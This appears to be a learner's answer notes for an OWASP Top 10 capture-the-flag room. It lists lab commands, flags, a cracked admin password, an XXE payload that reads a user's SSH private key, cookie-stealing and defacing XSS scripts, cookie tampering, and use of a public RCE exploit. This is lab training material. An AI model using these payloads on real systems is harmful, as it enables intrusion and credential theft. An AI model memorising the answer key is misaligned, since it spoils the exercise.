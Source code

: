 ///Task 5///
What strange text file is in the website root directory?
** ls
A: drpepper.txt
===
How many non-root/non-service/non-daemon users are there?
** uname
A: 0
===
What user is this app running as?
** whoami
A: www-data
===
What is the user's shell set as?
** cat /etc/passwd
A: /usr/sbin/nologin
===
What version of Ubuntu is running?
** lsb_release -a
A: Ubuntu 18.04.4
===
Print out the MOTD.  What favorite beverage is shown?
** cat /etc/update-motd.d/00-header (as of Google...)
A: Dr Pepper
///Task 7///
What is the flag that you found in darren's account?
A: fe86079416a21a3c99937fea8874b667
===
What is the flag that you found in arthur's account?
A: d9ac0f7db4fda460ac3edeb75d75e16e
///Task 11///
What is the name of the mentioned directory?
Go to webpage > login > inspect page > <!-- Must remember to do something better with the database than store it in /assets... --> >>
>> Navigate to: "http://10.10.229.7/assets/" 
A: /assets
===
Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
A: webapp.db
===
Use the supporting material to access the sensitive data. What is the password hash of the admin user?
Navigate to: "http://10.10.229.7/assets/" > download "webapp.db" > locate in terminal 
** sqlite3 webapp.db
** .tables
** SELECT * FROM users;
A: 6eea9b7ef19179a06954edd0f6c05ceb
===
What is the admin's plaintext password?
A: qwertyuiop (as of https://crackstation.net/)
===
Login as the admin. What is the flag?
A: THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl} (shown when logged in to webpage on "http://10.10.229.7/login"
///Task 16///
What is the name of the user in /etc/passwd
** /etc/passwd
A: falcon
===
Where is falcon's SSH key located?
A: /home/falcon/.ssh/id_rsa
===
What are the first 18 characters for falcon's private key?
** " <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root> "
A: MIIEogIBAAKCAQEA7bq
///Task 18///
Look at other users notes. What is the flag?
Go to "http://10.10.139.85" > login with noot and test1234 > look at note > look at note 0
A: flag{fivefourthree} 
///Task 19///
Hack into the webapp, and find the flag!
>> Googling is needed, looked for "Pensive Notes" > GitHub page > look at default credentials
Creds: pensive:PensiveNotes
A:thm{4b9513968fd564a87b28aa1f9d672e17}
///Task 20///
Navigate to http://10.10.13.117/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".
A: <script>alert(“Hello”)</script>
===
On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
>> Googling shows that "<script>alert(window.location.hostname</script>" does the trick
A: ReflectiveXss4TheWin
===
Then add a comment and see if you can insert some of your own HTML.
>> Added <title>My First HTML Document</title> (any HTML commnd can work)
A: HTML_T4gs
===
On the same page, create an alert popup box appear on the page with your document cookies.
>> Googling "html cookies" reveals that "document.cookie" is the key
>> <script>alert(document.cookie)</script>
A: W3LL_D0N3_LVL2
===
Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
>> <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
A: websites_can_be_easily_defaced_with_xss

///Task 21///
Who developed the Tomcat application?
A: The Apache Software Foundation
===
What type of attack that crashes services can be performed with insecure deserialization?
A: denial of service
///Task 25///
1st flag (cookie value)
>> Right click > Inspect element > Storage > Cookies > Select IP > session ID > Get Value (it's in base64) > decode
A: THM{good_old_base64_huh}
>> Right click > Inspect element > Storage > Cookies > userType > change to "admin" > load "Your profile" on the webpage
///Task 25///
>> Download file > execute it as of THM > add cookie as of THM > start 'netcat' >
** ls
** find / -name flag.txt 2> /dev/null (parses files, checks for "flag.txt" and outputs the lcoation)
** cat /home/cmnatic/flag.txt
A: 4a69a7ff9fd68
///Task 29///
How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
>> Google "recent unauthenticated bookstore app rce's" > click on ID47887 > download
** python3 47887.py http://10.10.1.171/
** ls
** wc -c /etc/passwd (as of the question above)
A:1611















